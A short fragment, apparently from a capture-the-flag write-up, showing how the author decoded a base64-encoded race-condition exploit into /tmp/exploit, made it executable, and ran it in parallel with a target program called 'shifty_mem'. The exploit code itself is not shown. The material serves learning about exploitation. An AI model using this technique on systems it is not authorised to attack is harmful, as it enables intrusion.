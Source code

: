 once racy encode is pushed on the remote I did the following :
```bash
base64 -d <whatever file name i used to put the base64 encoding> > /tmp/exploit
chmod +x /tmp/exploit
```
and ran it together with shifty mem :
```
shifty_mem boop & /tmp/exploit && fg 
```
[how to run 2 program in parallel](https://stackoverflow.com/questions/3004811/how-do-you-run-multiple-programs-in-parallel-from-a-bash-script)

